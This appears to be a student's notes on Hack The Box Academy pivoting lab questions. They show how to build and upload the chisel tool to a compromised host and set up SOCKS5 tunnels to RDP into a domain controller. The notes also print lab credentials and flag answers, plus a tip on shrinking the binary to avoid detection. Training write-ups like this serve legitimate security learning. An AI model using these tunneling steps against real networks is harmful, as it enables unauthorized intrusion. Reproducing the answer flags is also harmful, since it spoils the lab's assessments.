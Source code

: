 ```
type C:\Users\htb-student\Documents\flag.txt
```

Results: AC@tinth3Tunnel

SSH to $ip with user "ubuntu" and password "HTB_@cademy_stdnt!" Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer.

```
#########
# In the attacker machine
#######
git clone https://github.com/jpillora/chisel.git

cd chisel
go build


# It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection.
# You can run `go build -ldflags="-s -w"` and reduce it to 7.5MB (where `-s` is “Omit all symbol information from the output file” or strip, and `-w` is “Omit the DWARF symbol table”).
go build -ldflags="-s -w"

# Copy the file to the target
scp chisel ubuntu@$ip:~/

# And connect to the machine
ssh ubuntu@$ip


#########
# In the Ubuntu compromised machine, our Pivot Host
#######

./chisel server -v -p 1234 --socks5

sudo ./chisel server --reverse -v -p 1234 --socks5
```


 SSH to $ip with user "ubuntu" and password "HTB_@cademy_stdnt!"
**Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer.**

Results: `Th3$eTunne1$@rent8oring!`


 **Using the concepts taught thus far, connect to the target and establish an ICMP tunnel. Pivot to the DC (172.16.5.19, victor:pass@123) and submit the contents of C:\Users\victor\Downloads\flag.txt as the answer.**

